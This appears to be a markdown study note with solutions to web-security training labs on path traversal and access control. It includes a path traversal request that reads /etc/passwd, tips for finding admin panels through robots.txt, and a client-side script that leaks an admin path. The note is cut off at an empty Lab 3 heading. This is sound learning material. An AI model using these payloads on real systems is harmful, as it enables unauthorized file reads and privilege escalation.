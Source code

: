 ## Path Traversal
### Lets you access any directory by using ../../../ to go back to home directory
### This can be dangerous if we can access some sensitive files such as /etc/passwd

### Lab Solution
```bash
GET /image?filename=../../../../../../../etc/passwd HTTP/2
```

## Access Control
### Vertical Privelage Escalation
### When a normal user gain access to functionality they are not allowed to access

## Lab 1 Solution
```bash
Look at /robots.txt u will find admin panel, browse to admin panel
```

## Lab 2 Solution
### After browsing through the source code we find an admin function that discloses admin directory
```javascript
var isAdmin = false;
if (isAdmin) {
   var topLinksTag = document.getElementsByClassName("top-links")[0];
   var adminPanelTag = document.createElement('a');
   adminPanelTag.setAttribute('href', '/admin-7ey9aw');
   adminPanelTag.innerText = 'Admin panel';
   topLinksTag.append(adminPanelTag);
   var pTag = document.createElement('p');
   pTag.innerText = '|';
   topLinksTag.appendChild(pTag);
}

## Lab 3 Solution

